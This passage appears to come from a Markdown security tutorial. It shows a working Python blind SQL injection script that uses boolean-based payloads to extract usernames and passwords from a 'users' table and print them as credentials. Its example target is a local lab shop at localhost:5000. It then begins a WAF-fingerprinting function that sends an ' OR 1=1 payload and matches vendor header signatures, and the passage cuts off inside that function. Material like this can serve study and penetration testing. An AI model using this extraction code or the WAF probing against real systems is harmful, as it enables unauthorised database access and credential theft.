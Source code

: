 ```python
                response = requests.get(f"{url}?{injection_point}={payload}")
                
                if "product" in response.text.lower():  # Adjust based on response
                    data += char
                    print(f"Row {row+1}: {data}", end='\r')
                    break
            else:
                break  # No more characters
        
        if data:
            extracted_data.append(data)
            print(f"Row {row+1}: {data}")
        
        time.sleep(0.1)  # Rate limiting
    
    return extracted_data

def get_row_count(url, injection_point, table, where_clause):
    """Get number of rows in table"""
    for count in range(1, 100):
        payload = f"' AND (SELECT COUNT(*) FROM {table} {where_clause})={count}-- "
        response = requests.get(f"{url}?{injection_point}={payload}")
        
        if "product" in response.text.lower():
            return count
    
    return 0

# Usage example
url = "http://localhost:5000/shop"
usernames = extract_data_blind_sqli(url, "search", "users", "username")
passwords = extract_data_blind_sqli(url, "search", "users", "password")

print("\n[+] Extracted user credentials:")
for i, (username, password) in enumerate(zip(usernames, passwords)):
    print(f"User {i+1}: {username}:{password}")
```

## 🔍 Detection and Monitoring

### 1. Web Application Firewall (WAF) Detection
```python
def detect_waf_presence(url):
    """Detect WAF presence and type"""
    
    waf_signatures = {
        'Cloudflare': ['cf-ray', 'cloudflare'],
        'AWS WAF': ['x-amz-cf-id'],
        'ModSecurity': ['mod_security'],
        'F5 BIG-IP': ['f5-security'],
        'Barracuda': ['barra-counter-']
    }
    
    test_payload = "' OR 1=1-- "
    headers = {'User-Agent': 'Mozilla/5.0 (compatible; WAF-Test)'}
    
    try:
        response = requests.get(f"{url}?test={test_payload}", headers=headers)
        
        for waf_name, signatures in waf_signatures.items():
            for sig in signatures:
                if sig in str(response.headers).lower():
```